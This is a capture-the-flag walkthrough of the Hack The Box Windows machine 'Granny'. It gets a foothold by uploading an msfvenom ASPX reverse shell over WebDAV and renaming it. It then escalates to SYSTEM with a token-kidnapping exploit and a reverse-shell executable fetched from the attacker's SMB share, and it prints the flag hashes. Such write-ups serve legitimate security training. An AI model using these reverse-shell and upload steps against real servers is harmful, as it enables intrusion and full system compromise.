

+++
title = "Granny"
date = "2023-12-02"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2017-04-12

**Created by**: [ch4p](https://app.hackthebox.com/users/1)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.5`, while the target machine's IP address will be `10.10.10.15`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Granny using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.10.15 -p-
```

```
<SNIP>
PORT   STATE SERVICE
80/tcp open  http
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the service associated with the open port we found.

```sh
❯ nmap -sS 10.10.10.15 -p 80 -sV
```

```
PORT     STATE SERVICE      VERSION
<SNIP>
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Alright, so apparently Granny is running Windows.

## Scripts

Let's run `nmap`'s default scripts on this service to see if they can find additional information.

```sh
❯ nmap -sS 10.10.10.15 -p 80 -sC
```

```
<SNIP>
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Sun, 26 Nov 2023 14:41:42 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
<SNIP>
```

This scan reveals that IIS is using WebDAV, and it allows methods like `PUT` and `COPY`. Seems like a great way to get a foothold!

Let's explore the IIS web server and see if we manage to get a shell.

## IIS (port `80/tcp`)

Let's browse to `http://10.10.10.15/` and see what we get.



So apparently, this website is 'Under construction', and it doesn't have a default website, so this is why we see this strange web page.

### HTTP headers

Let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://10.10.10.15/ -I
```

```
HTTP/1.1 200 OK
Content-Length: 1433
Content-Type: text/html
Content-Location: http://10.10.10.15/iisstart.htm
Last-Modified: Fri, 21 Feb 2003 15:48:30 GMT
Accept-Ranges: bytes
ETag: "05b3daec0d9c21:392"
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
Date: Sun, 26 Nov 2023 14:34:01 GMT
```

The `Server` header confirms that this server is using Microsoft IIS version `6.0`. Moreover, the `X-Powered-By` header reveals that the web server uses ASP.NET files.

That's interesting, because we know that we can use WebDAV to upload files to the server. If we could execute our own files, we would get RCE!

### WebDAV

Let's use `davtest` to explore the WebDAV path further.

```sh
❯ davtest -url http://10.10.10.15/
```

```
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: odbFSm
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_odbFSm
********************************************************
 Sending test files
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.txt
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.jsp
PUT     shtml   FAIL
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.cfm
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.php
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.pl
PUT     aspx    FAIL
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.html
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.jhtml
PUT     cgi     FAIL
PUT     asp     FAIL
********************************************************
 Checking for test file execution
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.txt
EXEC    txt     FAIL
EXEC    jsp     FAIL
EXEC    cfm     FAIL
EXEC    php     FAIL
EXEC    pl      FAIL
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.html
EXEC    html    FAIL
EXEC    jhtml   FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_odbFSm
PUT File: http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.txt
PUT File: http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.jsp
PUT File: http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.cfm
PUT File: http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.php
PUT File: http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.pl
PUT File: http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.html
PUT File: http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.jhtml
Executes: http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.txt
Executes: http://10.10.10.15/DavTestDir_odbFSm/davtest_odbFSm.html
```

Apparently, we can only execute `.txt` and `.html` files, and we can't upload `.aspx` files. That's not a good news!

However, the `MOVE` method is allowed, so in theory nothing prevents us from uploading a benign `.txt` file and move it to a `.aspx` file.

# Foothold (WebDAV file upload)

Let's test this idea.

## Preparation

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp 9001
```

```
listening on [any] 9001 ...
```

Then I'll use `msfvenom` to create the payload.

```sh
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=9001 -f aspx -o /workspace/revshell.txt
```

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2723 bytes
Saved as: /workspace/revshell.txt
```

## Exploitation

I'm going to use `cadaever` to interact more efficiently with Granny's WebDAV server.

```sh
❯ cadaver 10.10.10.15
```

```
dav:/>
```

Let's begin by uploading our `revshell.txt`.

```sh
dav:/> put /workspace/revshell.txt
```

```
Uploading /workspace/revshell.txt to `/revshell.txt':
Progress: [=============================>] 100.0% of 2736 bytes succeeded.
```

Okay, it worked. Now let's move `revshell.txt` to `revshell.aspx`.

```sh
dav:/> mv revshell.txt revshell.aspx
```

```
Moving `/revshell.txt' to `/revshell.aspx':  succeeded.
```

Once again, it went off without a hitch!

Now let's trigger our payload:

```sh
❯ curl http://10.10.10.15/revshell.aspx -s
```

And if we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.15] 1031
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```

It caught the reverse shell! Nice!

# Local enumeration

If we run `whoami`, we see that we got a foothold as `NT AUTHORITY\SERVICE`.

## Version

Let's gather some information about the Windows version of Granny.

```cmd
c:\windows\system32\inetsrv> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    ProductName    REG_SZ    Microsoft Windows Server 2003 R2
```

Waouh! That's Windows Server 2003. It's a really old version! There must be a ton of vulnerabilities here.

```cmd
c:\windows\system32\inetsrv> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentBuildNumber
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    CurrentBuildNumber    REG_SZ    3790
```

And this is build `3790`.

## Architecture

What is Granny's architecture?

```cmd
c:\windows\system32\inetsrv> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PROCESSOR_ARCHITECTURE
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
    PROCESSOR_ARCHITECTURE    REG_SZ    x86
```

So this system is using x86. This will be useful to know if we want to compile our own exploits.

## Windows Defender

Since Granny is running Windows Server 2003, Windows Defender doesn't exist.

## AMSI

As for Windows Defender, this box is too old to have an AMSI provider.

## Firewall

Let's see which Windows Firewall policies profiles are enabled.

```cmd
c:\windows\system32\inetsrv> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy" /s /v EnableFirewall
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\DomainProfile
    EnableFirewall    REG_DWORD    0x0

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile
    EnableFirewall    REG_DWORD    0x1

End of search: 2 match(es) found.
```

Okay, so all Firewall profiles are enabled. It shouldn't hinder our progression too much though: since we alreay managed to obtain a reverse shell, the protections should be really basic.

## NICs

Let's gather the list of connected NICs.

```cmd
c:\windows\system32\inetsrv> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : granny
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Unknown
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-CE-0D
   DHCP Enabled. . . . . . . . . . . : No
   IP Address. . . . . . . . . . . . : 10.10.10.15
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
```

Looks like there's a single network.

## Local users

Let's enumerate all local users. Since Powershell is not available on Granny, I won't be able to use `PowerView` for that.

```cmd
c:\windows\system32\inetsrv> net users
```

```
User accounts for \\GRANNY

-------------------------------------------------------------------------------
Administrator            ASPNET                   Guest                    
IUSR_GRANPA              IWAM_GRANPA              Lakis                    
SUPPORT_388945a0         
The command completed successfully.
```

There's a user named `Lakis`! Let's keep that in mind as we continue our enumeration.

## Local groups

Let's enumerate all local groups.

```cmd
c:\windows\system32\inetsrv> net localgroup
```

```
Aliases for \\GRANNY

-------------------------------------------------------------------------------
*Administrators
*Backup Operators
*Distributed COM Users
*Guests
*HelpServicesGroup
*IIS_WPG
*Network Configuration Operators
*OWS_209498277_admin
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*Remote Desktop Users
*Replicator
*TelnetClients
*Users
The command completed successfully.
```

Looks classic.

## User account information

We're not really a Windows user, so we can't gather more information about us.

## Home folder

Since we're a service account, we don't have a home folder. And if we try to access a folder in `C:\Documents and Settings`, we get a 'File Not Found' message.

## Command history

We can check for command history files, but we find none.

## Tokens

Let's now focus on our tokens.

Which security groups are associated with our access tokens?

```cmd
c:\windows\system32\inetsrv> whoami /groups
```

```
GROUP INFORMATION
-----------------

Group Name                       Type             SID                                            Attributes                                        
================================ ================ ============================================== ==================================================
NT AUTHORITY\NETWORK SERVICE     User             S-1-5-20                                       Mandatory group, Enabled by default, Enabled group
Everyone                         Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
GRANNY\IIS_WPG                   Alias            S-1-5-21-1709780765-3897210020-3926566182-1005 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users    Alias            S-1-5-32-559                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                    Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE             Well-known group S-1-5-6                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization   Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
LOCAL                            Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                    Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
```

Unfortunately, there's nothing that we can abuse.

What about the privileges associated with our access tokens?

```cmd
c:\windows\system32\inetsrv> whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

We see that `SeImpersonatePrivilege` is enabled. There's probably a way to exploit that!

My first idea is obviously the Windows potatoes, which are designed to exploit this kind of privileges, but it turns out that they are not meant to be run on such an old Windows version. There's actually another way to exploit this privilege on Windows Server 2003, which you can find at [Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation](https://www.exploit-db.com/exploits/6705).

# Privilege escalation (token kidnapping)

Token kidnapping is a type of privilege escalation vulnerability that allows an attacker to gain control of a server. The attacker can escalate their privileges on a system if they can control the `SeImpersonatePrivilege` token of a Windows service account.

This fits perfectly our use case! We are indeed a Windows service account.

## Preparation

The [ExploitDB page](https://www.exploit-db.com/exploits/6705) gives us a PoC. I tried to compile it using Visual Studio 2022, but the PoC is written for a too old version. Thankfully, SQLNinja has a pre-compiled binary, which you can find at `/usr/share/sqlninja/apps/churrasco.exe` if you are using Kali Linux.

I'm going to save it as `token_kidnapping.exe`.

The next challenge involves transferring it to Granny. Since it's running Windows Server 2003, most techniques simply don't work. Fortunately, there are a handful that do work, such as utilizing SMB.

```cmd
c:\windows\system32\inetsrv> copy \\10.10.14.5\server\token_kidnapping.exe C:\tmp\token_kidnapping.exe
```

Now the exploit should be on the machine, that's a good thing. However, we still need to come up with a payload to use with it!

I want to obtain a reverse shell, so I'll use `msfvenom` to create an executable for that.

```sh
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=9002 -f exe > /workspace/server/revshell.exe
```

I'll use the same method as for the exploit to transfer it to the machine.

The last thing to do is starting a listener on port `9002` to receive the connection.

```sh
❯ rlwrap nc -lvnp 9002
```

```
listening on [any] 9002 ...
```

Now we should be ready to go!

## Exploitation

Let's use our exploit to obtain an elevated shell!

```cmd
C:\Temp> .\token_kidnapping.exe "C:\tmp\revshell.exe"
```

Let's check our listener.

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.15] 1033
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>
```

Yay! We got our reverse shell! Let's confirm that we are `NT AUTHORITY\SYSTEM`:

```cmd
C:\WINDOWS\TEMP> whoami
```

```
nt authority\system
```

Nice!

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the user and root flags.

During our enumeration, we noticed a user named `Lakis`. If we check its Desktop, we see that it contains the user flag!

```cmd
C:\WINDOWS\TEMP> type "C:\Documents and Settings\Lakis\Desktop\user.txt"
```

```
700c5dc163014e22b3e408f8703f67d1
```

And as usual, the user flag can be found on our Desktop!

```cmd
C:\WINDOWS\TEMP> type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

```
aa4beed1c0584445ab463a6747bd06e9
```

# Afterwords


That's it for this box! The foothold was really new to me, since I didn't know about WebDAV before starating this box. Exploiting it is really straightforward though. The privilege escalation part was easy to identify, but I had trouble obtaining a binary to exploit this vulnerability.

Thanks for reading!
